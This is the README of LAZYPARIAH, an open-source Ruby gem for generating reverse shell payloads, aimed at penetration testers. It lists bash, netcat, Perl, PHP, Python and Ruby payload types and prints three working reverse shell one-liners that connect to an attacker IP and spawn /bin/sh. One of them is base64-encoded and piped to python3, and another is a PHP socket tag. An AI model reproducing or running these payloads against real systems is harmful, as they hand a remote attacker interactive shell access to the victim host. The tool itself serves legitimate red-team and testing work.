 # LAZYPARIAH
A tool for generating reverse shell payloads on the fly.

## Description
LAZYPARIAH is a simple tool for generating a range of reverse shell payloads on the fly.

This tool is intended to be used only in authorised circumstances by qualified penetration testers, security researchers and red team professionals. Before downloading, installing or using this tool, ensure that you understand the relevant laws in your jurisdiction. The author of this tool does not endorse the usage of this tool for illegal or unauthorised purposes.

## Demonstration
![Alt text](./lazypariah-0.2.0.svg)

## Dependencies
* Ruby >= 2.7.1 (LAZYPARIAH has not been tested on previous versions of Ruby)

## Installation
LAZYPARIAH can be installed as follows:
```
gem install lazypariah
```

## Usage
```
Usage:  lazypariah [OPTIONS] <PAYLOAD TYPE> <ATTACKER HOST> <ATTACKER PORT>
Note:   <ATTACKER HOST> may be an IPv4 address, IPv6 address or hostname.

Example:        lazypariah -u python3_b64 10.10.14.4 1555
Example:        lazypariah python2_c malicious.local 1337

Valid Payloads:
    bash_tcp
    nc
    nc_pipe
    perl
    perl_c
    php_fd_3
    php_fd_3_c
    php_fd_3_tags
    php_fd_4
    php_fd_4_c
    php_fd_4_tags
    php_fd_5
    php_fd_5_c
    php_fd_5_tags
    php_fd_6
    php_fd_6_c
    php_fd_6_tags
    python
    python2_b64
    python2_c
    python3_b64
    python3_c
    python_b64
    python_c
    ruby
    ruby_b64
    ruby_c

Valid Options:
    -h, --help                       Display help text and exit.
    -l, --license                    Display license information and exit.
    -u, --url                        URL-encode the payload.
    -v, --version                    Display version information and exit.
```

## Output Examples
Output of command `lazypariah -u python3_b64 10.10.14.4 1337`:
```
echo%20aW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjEwLjE0LjQiLDEzMzcpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7IG9zLmR1cDIocy5maWxlbm8oKSwxKTsgb3MuZHVwMihzLmZpbGVubygpLDIpO3A9c3VicHJvY2Vzcy5jYWxsKFsiL2Jpbi9zaCIsIi1pIl0pOw%3D%3D%20%7C%20base64%20-d%20%7C%20python3
```
Output of command `lazypariah python2_c 10.10.14.4 1337`:
```
python2 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.4",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
Output of command `lazypariah php_fd_3_tags 10.10.14.4 1337`:
```
<?php $sock=fsockopen("10.10.14.4",1337);exec("/bin/sh -i <&3 >&3 2>&3");?>
```

## Author
Copyright (C) 2020 Peter Bruce Funnell

## License
This program is free software: you can redistribute it and/or modify it under the terms of the GNU General Public License as published by the Free Software Foundation, either version 3 of the License, or (at your option) any later version.

This program is distributed in the hope that it will be useful, but WITHOUT ANY WARRANTY; without even the implied warranty of MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the GNU General Public License for more details.

You should have received a copy of the GNU General Public License along with this program.  If not, see <https://www.gnu.org/licenses/>

## Support
If you found this project useful and would like to encourage me to continue making open source software, please consider making a donation via the following link:

https://www.buymeacoffee.com/peterfunnell

Donations in Bitcoin (BTC) are also very welcome. My BTC wallet address is as follows:

```
3EdoXV1w8H7y7M9ZdpjRC7GPnX4aouy18g
```
